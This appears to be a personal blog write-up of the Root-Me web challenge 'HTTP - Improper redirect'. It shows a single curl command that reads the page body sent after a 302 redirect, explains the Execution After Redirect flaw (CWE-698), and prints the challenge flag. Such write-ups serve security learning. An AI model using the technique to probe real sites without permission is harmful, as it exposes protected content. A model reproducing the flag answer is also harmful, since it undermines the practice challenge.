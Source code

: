 ```yaml
---
title: HTTP - Improper redirect
author: thanguyen165
date: 2023-01-02 07:00:00 +0700
categories: [Practice, rootme]
tags: [Web Exploitation, rootme]
---
```


* Points: 15
* Link: [https://www.root-me.org/en/Challenges/Web-Server/HTTP-Improper-redirect](https://www.root-me.org/en/Challenges/Web-Server/HTTP-Improper-redirect)

## Statement

> Get access to index.

### Hint:

> Don’t trust your browser

## Solution

```sh
curl -i http://challenge01.root-me.org/web-serveur/ch32/index.php
```

```http
HTTP/1.1 302 Found
Server: nginx
Date: Wed, 12 Jul 2023 02:58:21 GMT
Content-Type: text/html; charset=UTF-8
Transfer-Encoding: chunked
Connection: keep-alive
Location: ./login.php?redirect
```

```html
<html>
<body><link rel='stylesheet' property='stylesheet' id='s' type='text/css' href='/template/s.css' media='all' /><iframe id='iframe' src='https://www.root-me.org/?page=externe_header'></iframe>
<h1>Welcome !</h1>

<p>Yeah ! The redirection is OK, but without exit() after the header('Location: ...'), PHP just continue the execution and send the page content !...</p>
<p><a href="http://cwe.mitre.org/data/definitions/698.html">CWE-698: Execution After Redirect (EAR)</a></p>
<p>The flag is : ExecutionAfterRedirectIsBad
</p>
</body>
</html>
```

The flag is
```
ExecutionAfterRedirectIsBad
```

> **Note** the browser wont show body when it gets the 302.
{: .prompt-info }
